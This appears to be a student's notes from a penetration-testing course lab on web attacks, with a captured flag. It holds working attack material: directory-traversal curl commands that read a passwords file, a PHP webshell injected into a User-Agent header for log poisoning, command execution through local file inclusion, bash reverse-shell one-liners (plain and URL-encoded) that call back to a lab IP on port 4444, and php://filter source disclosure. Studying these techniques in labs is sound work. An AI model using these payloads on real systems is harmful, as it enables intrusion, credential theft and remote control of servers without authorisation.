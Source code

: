 ```shell
 curl http://192.168.232.16/cgi-bin/../../../../../opt/passwords 
 # Doesn't work, Filtered on server, lets Replace . %2e
curl --path-as-is  http://192.168.232.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords  

OS{36afaf1a2db5c3c07b6a45593dc7b644} 
```
## LFI - Local File Inclusion
* Log Poisoning, modify data sent to logs so it has executable code, trigger with LFI
* Use DIR traversal to view log files
* if log files has something like UserAgent, we can use Burp to insert PHP code into our user agent
* this code could act as webshell, 
### Steps to execute via 9.2.1
1. DIR traversal with Curl to validate access.log has user agent that we can write php code to `curl --path-as-is http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log`
2. Navigate to website, and find link with php, `index.php?page=admin.php` , send to Repeater in Burp
3. Burp Repater : Modify User-Agent on request, add `<?php echo system($_GET['cmd']); ?>`, SEND!!!
4. LFI vulnerability should be live
5. Use DIR traversal again, at LFI location, with our updated CMD, `../../../../../../../../../var/log/apache2/access.log&cmd=ps`
6. Can send many commands now : `../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-al` , URL encoding space as %20
7. Attempt RevShell with LFI : 
```shell
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1     # common bash reverse shell
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"   # since we have PHP, which uses SH, use this RevShell instead
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22   # same shell, but encoded with special characters
```
* *Source* : [PayLoadsAllTheThings Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

### LFI - Windows 
* On Windows, steps are the same, but logs are in different locations
* For example, target running XAMPP, the Apache logs can be found in `C:\xampp\apache\logs\`
* Same PHP code should work
* NOTE: above example was PHP. The same concepts apply for other code, such as JS. We could log poison and execute
---
## PHP Wrappers (filter && data)
### php://filter
* takes resource as argument
* used to read instead of execute 
* PHP is server side, try encoding output to see if it changes, 
* decode in terminal with Base64 command 
```shell
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php  # PHP Encode Base 64 
echo "PCFE...bD4K" | base64 -d  # DECODED Base64
echo "My encoded stuff" | base64 # Encode Base64
```
### data://
* Used to execute code
* Alternative to LFI when we can NOT poison local file
* When filtering is in place, attempt to encode the data wrapper and then send to server